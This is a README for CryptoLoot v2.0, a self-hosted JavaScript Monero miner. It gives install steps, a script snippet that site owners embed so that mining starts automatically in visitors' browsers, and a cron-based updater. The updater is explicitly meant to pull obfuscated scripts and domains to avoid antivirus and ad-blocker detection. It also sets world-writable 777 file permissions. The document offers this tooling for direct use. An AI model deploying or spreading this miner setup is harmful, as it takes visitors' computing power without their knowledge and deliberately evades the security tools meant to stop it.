 # cryptoloot

Self Hosted Library for CryptoLoot v2.0
=======================================

Working with Monero v8/v9 (Cryptonight v2) October 18th Hardfork Release
========================================================================


How to Install:
1) Download https://github.com/Crypto-Loot/cryptoloot/archive/master.zip and uncompress at yoursite.com home directory
or alternatively use ```git clone https://github.com/Crypto-Loot/cryptoloot.git```
2) Register at https://crypto-loot.com to get your public site ID, you'll need this for the next step.
3) Add the script to your website, preferably ABOVE </body> tag, and not within the <head></head> tags. Make sure to edit YOUR_PUBLIC_KEY with your site ID from crypto-loot.com:
```text
<script src="lib/crypta.js"></script>
<script>
            var miner=new CRLT.Anonymous('YOUR_PUBLIC_KEY', {
                threads:4,autoThreads:false,throttle:0.2,
            });
        miner.start();
</script>
```
NOTE: Also, edit your site key above from the one you have on https://crypto-loot.com

4) All set. Now just send some traffic!

5) Optional: Set to automatically update (to stay up to date with the latest obfuscated scripts and domains to avoid AV/Adblocker detection):
Make sure to install php-curl extension on your server if it does not exist:

***CentOS:***
```text
yum install php-curl
```
***Debian:***
```text
apt-get install php-curl
```
Change the permissions of these threee files to 777 so they can be overwritten on update:
```text
chmod 777 lib/crypta.js lib/version.txt
```
Install the cron to check for updates once every 12 hours:
```text
0 */12 * * * php /var/www/html/website/updater.php >> /var/www/html/website/cl_log.txt
```

Have any questions?
===================
Feel free to contact as at https://crypto-loot.com
